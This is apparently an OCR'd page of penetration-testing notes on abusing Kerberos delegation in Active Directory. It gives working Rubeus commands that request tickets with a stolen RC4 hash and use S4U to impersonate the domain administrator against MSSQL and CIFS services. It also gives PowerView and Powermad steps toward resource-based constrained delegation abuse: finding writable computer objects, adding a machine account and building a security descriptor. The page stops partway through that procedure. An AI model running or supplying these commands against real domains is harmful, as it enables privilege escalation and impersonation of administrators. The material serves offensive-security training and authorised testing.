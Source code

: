Generate TGT for <user>:
```
.\Rubeus.exe asktgt /user:<user> /domain:<domain> /rc4:<hash_created_above>
```

Example of exploit for administrator against S4UProxy:
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt
```
In this case it's mssql, but the service depends on what you find running the first command to find constrained delegations.

You can now use the service you exploited (mssql in this case) just running the service (since the TGS is in memory):
```
.\SQL.exe
```
You can access other services:
```
.\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /altservice:CIFS /ptt
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Resource Based Constrained Delegation</b></span>

Most recent technology for Kerberos Delegation
Enumerate delegations
```
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
Check ObjectDN (Get the first DC name - <first_DC>), ActiveDirectoryRights: GenericWrite (or GenericAll, WriteProperty, or WriteDACL).

Enumerate 
```
Get-DomainObject -Identity <first_DC> -Properties ms-DS-MachineAccountQuota
```
Create new machine (download powermad.ps1):
```
. .\powermad.ps1
New-MachineAccount -MachineAccount <new_computer_name> -Password $(ConvertTo-SecureString '<password1>' -AsPlainText -Force)
Get-DomainComputer -Identity <new_computer_name>
```
If you enumerate with the 1st command of the page again, it should show the new machine.

To convert the SID of our newly-created computer object to the correct format:
```
$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
```
